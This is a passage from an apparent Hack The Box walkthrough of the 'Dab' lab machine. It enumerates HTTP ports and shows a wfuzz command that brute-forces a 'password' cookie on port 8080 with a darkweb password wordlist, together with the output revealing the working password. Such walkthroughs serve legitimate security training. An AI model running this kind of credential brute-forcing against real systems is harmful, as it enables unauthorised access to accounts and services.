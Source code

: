 ## Directory/File Enumeration

Time to move on to the `http` services, starting with `80/tcp`.

<a class="image-popup">
![123ed84f.png](/assets/images/posts/dab-htb-walkthrough/123ed84f.png)
</a>

Bummer. I'm not going to brute-force something I have no knowledge of. `8080/tcp` is next.

<a class="image-popup">
![83abd8cf.png](/assets/images/posts/dab-htb-walkthrough/83abd8cf.png)
</a>

This is easier to brute-force. At least I know that I need to introduce a `password` cookie. :laughing:

`wfuzz` is the perfect tool for such a job.

```
# wfuzz -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt -t 20 -b "password=FUZZ" --hs incorrect http://10.10.10.86:8080
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.86:8080/
Total requests: 1000

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000211:  C=200     21 L	      48 W	    540 Ch	  "secret"
000852:  C=200     14 L	      29 W	    324 Ch	  "love11"^C
Finishing pending requests...
```

